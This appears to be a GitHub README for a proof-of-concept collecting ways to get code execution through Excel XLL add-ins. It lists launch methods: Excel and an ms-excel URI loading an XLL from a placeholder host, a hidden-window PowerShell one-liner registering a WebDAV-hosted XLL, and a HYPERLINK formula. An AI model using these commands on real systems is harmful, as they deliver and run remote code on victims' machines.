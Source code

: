 # xllpoc
## Code Exec via Excel
A small project that aggregates community knowledge for Excel XLL execution, via xlAutoOpen() or PROCESS_ATTACH.

### Credit  
- Nick Landers  
- EdParcell: https://github.com/edparcell/HelloWorldXll  
- MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx  
- Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52  
- Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ  
- MWR Labs: https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/
- SubTee: https://www.youtube.com/watch?v=QYbdHHBDllg

### Getting Execution
Excel
```
Excel.exe http://foo.com/xll.xll
```
uri
```
ms-excel:ofe|u|http://foo.com/xll.xll
```
Everyone favourite oneliner
```
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"
```
Embedded in the Worksheet
```
=HYPERLINK("http://foo.com/xll.xll", "CLICK")
```
